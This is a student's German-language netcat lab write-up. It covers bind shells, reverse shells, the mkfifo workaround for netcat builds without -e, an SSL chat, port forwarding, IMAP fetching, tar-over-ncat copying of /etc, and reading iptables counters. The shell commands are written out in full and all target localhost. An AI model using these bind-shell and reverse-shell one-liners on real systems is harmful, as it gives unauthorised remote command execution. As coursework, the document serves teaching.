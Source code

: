 # Übung 4
### 1.1 Create a bind-shell on the host netcat is in server (listening) mode. A bind-shell allows netcat clients to use a server-side shell (execute commands on the server).
**Setup Host:**
- ncat -lvp 65000 -e /bin/bash
**l:** listen
**v:** verbose: gibt auch Fehlermeldungen oder wenn die Verbindung aufgebaut wird aus.
**p:** on port ...
Host horcht auf Port 65000 und führt die Shell nach ausführung des Befehls aus.

**Setup Client:**
- ncat localhost 65000
Client verbindet sich mit Host auf Port 65000 und kann Befehle auf dessen Shell ausführen.

### 1.2 Create a reverse-shell. A reverse shell is the counterpart of a bind-shell, and allows the server (!) to execute commands on the client.
**Setup Host:**
- ncat -lvp 65000
Host wartet auf Client Verbindung, wenn Verbindung steht, kann Host Befehle auf Client Shell ausführen.

**Setup Client**
- ncat -c /bin/bash localhost 65000
-  c: führt erhaltenen Befehl in bin/bash aus
Verbindet sich zu Host.

### 1.3 Can these shells be used when server and client are using different OSs?
Eine Reverse Shell ist möglich, wenn der Host ein Windows System ist und der Client ein Linux System, da die bash auf Linux ausgeführt wird.
Umgekehrt nicht möglich, da Windows keine Bash besitzt.

### 1.4 Can (1.1) and/or (1.2) used with UDP?
ncat besitzt eine -u option, welche es ermöglicht UDP anstatt von TCP zu verwenden.
Es müssen jedoch Host und Client die Option aktiviert haben.
z.B.:
**Host**
- ncat -lvup 65000 -e /bin/bash

**Client**
- ncat -u localhot 65000

Dies funktioniert bei reverse shell jedoch nicht -> Befehle werden nicht mehr ausgeführt.

### 2. Construct server and client netcat command-lines which resemble simple a text-chat.
### — Chat must be accessible to multiple clients simultaneously
### — All clients must receive all messages from all other clients
### — All traffic must be encrypted at all times
### — Chat server must only allow predefined IPs
### — Server must keep a central chat log

**Setup Host:**
- ncat \--chat \--allow localhost \--ssl -o output.txt -lvp 65000
- chat: startet simplem ncat Chat Server
- allow localhost: IP Adresse des Server um sich darauf zu verbinden (hier localhost)
- ssl: Verbinden und "listen" mit SSL
- o: gibt die Daten von der Session (Chat Nachrichten, Errors, Connect messages etc) in file aus (hier output.txt).

**Mit Client verbinden**
- ncat \--ssl localhost 65000

### 3.What does the following command-line do?
#### **while $(ncat -lp 8080 -c 'ncat localhost 80'); do true; done**

Es wird durch die while Schleife kontinuirlich auf dem Port 8080 gehört. Wenn Anfragen auf diesen Port eintreffen werden diese an den Port 80 (HTTP Port) weiter geleitet.

### 4. Due to security awareness, some netcat versions prevent using the -e option (route input data to process stdin). However, there is a work-around for establishing bind-shells nevertheless (server-side)
**mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | ncat -lp 1234 > /tmp/f**
### Deconstruct this command and explain exactly what each element is doing.

- **mkfifo /tmp/f**
Erzeugt eine FIFO ("First In First Out Queue") im Verzeichnis /tmp mit dem namen f

- **cat /tmp/f | /bin/sh -i 2>&1 | ncat -lp 1234 > /tmp/f**
**cat /tmp/f | /bin/sh -i 2>&1** liest aus der Warteschlange aus und leitet das ausgelesene weiter an Shell die mit –i (interactive: User kann mit Shell interagieren und Befehle können ausgeführt werden) ausgeführt wird.
**ncat -lp 1234 > /tmp/f** es wird durch ncat auf dem port 1234 gelistened. Alle erhaltenen Anfragen werden in die Warteschlange f geschrieben.

### 5. Use ncat to fetch your e-mails from your FH mail account via IMAP. See https://en.wikipedia.org/wiki/Internet_Message_Access_Protocol for how the IMAP protocol works.

Bei der Verwendung von IMAPS wird die Verbindung zum Server bereits während des Verbindungsaufbaus durch SSL verschlüsselt. Damit der Server das erkennt, muss ein anderer Port verwendet werden. Dafür wurde der **Port 993** reserviert.

- ncat imaps.fh-ooe.at 993 \--ssl -v
- a login s1510237001 password
- a select inbox
- a fetch 274 full

### 6. Use the ncat and tar commands to copy the entire contents of your /etc/ directory from your computer to one of your colleagues. The file transfer must be encrypted and compressed. The compression must be done on-the-fly and must not consume additional disk space on the sending client. The receiver must decompress on-the-fly to a predefined sub-directory in his/her home directory. Both sender and client must only issue one single command-line (Enter key only pressed once).

Dieses Beispiel wurde lokal getestet, da wird keine Verbindung von zwei verschiedenen VMs zusammengebracht haben.

**Host:**
- ncat \--ssl -lvp 65000 | tar zx -C ./

-C um einen Speicherpfad anzugeben


**Client:**
- sudo tar zcf - "/etc" | ncat localhost 65000 \--ssl

### 7. Create a very simple shell-script, which iterates over URLs of web-servers in a given text-file (one per line), and use ncat to grab the webserver’s banner (Hint: use the HTTP HEAD command). Grab the Server: line from each response, and store them in a dedicated text-file on your system.

siehe bannerScript.sh + dessen output file "banner.txt"


### 8.
```
[dabinder@David ~]$ sudo iptables -I INPUT 1 --source localhost -j ACCEPT
[sudo] password for dabinder:
[dabinder@David ~]$ sudo iptables -I OUTPUT 1 --destination 10.0.2.15 -j ACCEPT
[dabinder@David ~]$ sudo iptables -Z
[dabinder@David ~]$ nmap -p- 10.0.2.15

Starting Nmap 7.60 ( https://nmap.org ) at 2017-11-21 18:05 CET
Nmap scan report for 10.0.2.15
Host is up (0.000058s latency).
All 65535 scanned ports on 10.0.2.15 are closed

Nmap done: 1 IP address (1 host up) scanned in 1.11 seconds
[dabinder@David ~]$ sudo iptables -vn -L
Chain INPUT (policy ACCEPT 131K packets, 6554K bytes)
 pkts bytes target     prot opt in     out     source               destination         
    0     0 ACCEPT     all  --  *      *       127.0.0.1            0.0.0.0/0           
    0     0 ACCEPT     all  --  *      *       127.0.0.1            0.0.0.0/0           

Chain FORWARD (policy ACCEPT 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         

Chain OUTPUT (policy ACCEPT 8 packets, 513 bytes)
 pkts bytes target     prot opt in     out     source               destination         
 131K 6554K ACCEPT     all  --  *      *       0.0.0.0/0            10.0.2.15     
```

### 8.1 How many packets have been sent?
**131K packets**
### 8.2 How many traffic has been generated (bytes)?
**6554K bytes**